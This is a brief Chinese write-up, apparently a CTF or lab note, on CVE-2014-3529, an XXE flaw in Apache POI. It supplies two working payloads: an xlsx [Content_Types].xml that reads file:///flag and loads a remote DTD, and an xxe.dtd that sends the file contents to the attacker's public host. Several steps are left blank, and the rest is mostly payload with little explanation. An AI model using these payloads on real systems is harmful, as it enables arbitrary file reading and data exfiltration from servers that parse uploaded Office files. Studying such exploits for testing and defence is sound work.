




## CVE-2014-3529

必须要公网IP,目标主机可以访问到你的机器给你发送数据

1. 描述

Apache POI 3.10.1 之前的 OPC SAX 设置允许远程攻击者通过 OpenXML 文件读取任意文件，该文件包含与 XML 外部实体 (XXE) 问题相关的 XML 外部实体声明和实体引用。

2. 





3. 准备两个资源


`[Content_Types].xml` 目标端执行的文件，压缩成zip文件后修改后缀为.xlsx,进行上传

```xml 
<!-- [Content_Types].xml -->
<!DOCTYPE ANY [ <!ENTITY % file SYSTEM "file:///flag"> 
<!ENTITY % dtd SYSTEM "http://your public ip/xxe.dtd">
%dtd; %send;]>
```


`xxe.dtd` 用于`xml`里面执行的dtd文件

```xml
<!-- xxe.dtd -->
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://your public/%file;'>">
%all;
```
4. 执行


5. 可以返回命令




